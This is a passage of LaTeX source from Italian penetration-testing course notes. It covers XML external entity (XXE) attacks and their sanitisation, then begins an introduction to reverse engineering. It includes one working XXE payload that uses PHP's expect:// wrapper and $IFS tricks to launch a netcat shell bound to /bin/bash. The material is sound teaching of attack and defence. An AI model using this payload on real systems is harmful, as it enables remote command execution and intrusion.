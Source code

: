 \documentclass{article}
\begin{document}
\newpage
Un ulteriore esempio è questo:
\begin{verbatim}
	<?xml version=“1.0” ?>
	<!DOCTYPE vapt [
		<!ELEMENT vapt ANY>
		<!ENTITY myVariable SYSTEM
	“expect://nc$IFS-nvlp$IFS’4321’$IFS-e$IFS’/bin/bash’”>
	]>
	<vapt>Hello world! Here you can find the slides: &myVariable;</vapt>
\end{verbatim}

In questo esempio viene modificata la riga 4 ed aggiunta una nuova riga
con il payload che apre una \textbf{reverse shell}.\\
Questo payload funziona esclusivamente se il modulo PHP "expect" è stato caricato. Inoltre l'attaccante usa \verb|$IFS| (Internal Field Separator) per creare spazi.

\subsubsection{Sanitizzazione di XXE}
La strategia migliore è creare una \textbf{whitelist} delle operazione consentite dentro il parser XML stesso. Se il programmatore non ha accesso al codice sorgente del parser, allora deve \textbf{whitelistare} le operazioni di caricamento file XML nel sito stesso.

\newpage

\section{Reverse Engineering}

Il \textbf{Reverse Engineering} è il \textbf{processo di analisi di un sistema software esistente}, eseguito al fine di crearne una \textbf{rappresentazione ad alto livello di astrazione}.\\
Ad un pentester può essere utile studiare un eseguibile per cercare vulnerabilità che possono esporre a rischi i dati che l’applicazione gestisce.

Esistono due tipologie di analisi: \textbf{statica} e \textbf{dinamica}.

\subsection{Analisi Statica}
L'analisi \textbf{statica} consiste in una serie di operazioni volte ad analizzare il file binario \textbf{senza che esso venga eseguito}. Tra le operazioni sono comprese l'analisi di \textbf{codice disassemblato o decompilato} e delle risorse presenti all'interno del file.
\end{document}
